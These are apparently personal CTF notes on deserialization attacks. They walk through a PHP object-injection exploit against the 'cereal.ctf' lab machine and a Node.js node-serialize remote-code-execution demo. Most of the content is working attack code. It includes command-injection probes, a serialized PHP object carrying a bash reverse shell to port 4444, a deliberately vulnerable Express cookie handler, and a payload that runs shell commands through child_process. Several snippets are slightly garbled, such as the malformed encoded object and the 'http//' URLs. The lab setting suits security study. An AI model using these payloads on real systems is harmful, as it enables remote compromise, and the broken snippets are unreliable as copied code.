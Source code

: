 # Deserialization Attack

Discover directories

```bash
gobuster vhost -u http//$ip:44441 -w $directoryListMedium -t 20
```

List subdomains

```bash
gobuster vhost -u http//cereal.ctf:44441 -w $subDomainsTopMillion -t 20
```

Resolving local domains correctly in Firefox `about:config`:

```js
browser.fixup.domainsuffix.whitelist.ctf > boolean -> true
```

Listen to ping

```bash
tcpdump -i ens33 icmp -n
```

The underlying PHP might have

```php
system("ping -c3 " . $_POST['ip_address'])
```

Try to inject the form

```php
146851981 || whoami
127.0.0.1 && whoami
```

It's sanitized, so we move on to [Burp Suite]([[burpsuite]]):

```http
obj=063A8%3%22pingTest%22%3A1%3%7Bs%3A9%3%22ipAddress%2263Bs%314%3%22192.168.111.45%22%3%7D&ip=192.168.111.45
```

`Ctrl+Shift+U` to decode:

```http
obj=0:8:"pingTest":1:(s:9:"ipAddress";s:14:"192.168.111.45;}&ip=192.168.111.45
```

Inspect `php.js` code:

```bash
curl -s -X GET "http://secure.cereal.ctf:44441/php.js" | bat -l js
```

Try a bigger dictionary:

```bash
gobuster vhost -u http//$ip:44441 -w $directoryListBig -t 20
```

Create a serialized object:

```php
<?php

class pingTest {
	public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.111.45/4444 0>&1"
	public $isValid = True;
	public $output = "";
}

echo urlencode(serialize(new pingTest));
```

Run it:

```bash
php serialize.php 2>/dev/null; echo
```

### Javascript Deserialization

From: [Exploiting Node.js deserialization bug for Remote Code Execution](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

Install dependencies:

```bash
npm install express node-serialize cookie-parser
```

Save as `server.js`:

```js
var express = require("express");
var cookieParser = require("cookie-parser");
var escape = require("escape-html");
var serialize = require("node-serialize");
var app = express();
app.use(cookieParser());

app.get("/", function (req, res) {
  if (req.cookies.profile) {
    var str = new Buffer(req.cookies.profile, "base64").toString();
    var obj = serialize.unserialize(str);
    if (obj.username) {
      res.send("Hello " + escape(obj.username));
    }
  } else {
    res.cookie(
      "profile",
      "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=",
      {
        maxAge: 900000,
        httpOnly: true,
      },
    );
  }
  res.send("Hello World");
});
app.listen(3000);
```

Save as `serialize.js`:

```js
var y = {
  rce: function () {
    require("child_process").exec(
      "ls /",
      function (error, stdout, stderr) {
        console.log(stdout);
      },
    );
  },
}();
var serialize = require("node-serialize");
console.log("Serialized: \n" + serialize.serialize(y));
```

Run it:

```
node serialize.js
```
